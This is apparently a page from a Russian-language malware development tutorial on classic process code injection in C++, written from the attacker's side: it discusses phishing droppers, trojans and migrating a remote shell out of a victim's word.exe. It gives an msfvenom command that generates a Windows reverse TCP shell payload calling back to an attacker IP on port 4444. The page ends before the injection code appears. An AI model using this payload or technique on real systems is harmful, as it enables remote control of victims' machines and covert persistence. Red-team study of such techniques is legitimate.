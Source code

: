 \newpage
\subsection{4. классическая инъекция кода в процесс. простое вредоносное ПО на C++}
\label{4. классическая инъекция кода в процесс. простое вредоносное ПО на C++}    

الرَّحِيمِ الرَّحْمَٰنِ للَّهِ بِسْمِ 

![code injection](./images/6/2021-09-18_20-00.png){width="75%"}

Давайте поговорим об инъекции кода. Что такое инъекция кода? И зачем мы это делаем?   

Техника инъекции кода - это простой метод, при котором один процесс, в нашем случае это наше вредоносное ПО, внедряет код в другой запущенный процесс.    

Например, у вас есть вредоносное ПО - это может быть дроппер из фишинговой атаки, троян, который вы смогли доставить жертве, или любой другой код. И по какой-то причине вам может понадобиться выполнить вашу полезную нагрузку (шеллкод) в другом процессе.   

Что я имею в виду? В этом посте мы не рассматриваем создание трояна, но, например, представьте, что ваш полезный код выполняется внутри `word.exe`, который имеет ограниченное время жизни. Допустим, вам удалось получить удаленную оболочку, но вы знаете, что ваша жертва закроет `word.exe`. В такой ситуации вам придется мигрировать в другой процесс, если вы хотите сохранить свою сессию.     

В этом посте мы обсудим классическую технику инъекции полезной нагрузки с использованием API отладки (debugging API).    

Прежде всего, давайте подготовим наш полезный код. Для простоты мы используем полезную нагрузку обратной оболочки `msfvenom` из Kali Linux.

На машине атакующего выполните:
```bash
msfvenom -p windows/x64/shell_reverse_tcp 
LHOST=10.9.1.6 LPORT=4444 -f c
```

Где `10.9.1.6` - это IP-адрес машины атакующего, а `4444` - порт, на котором позже будет запущен прослушиватель.    
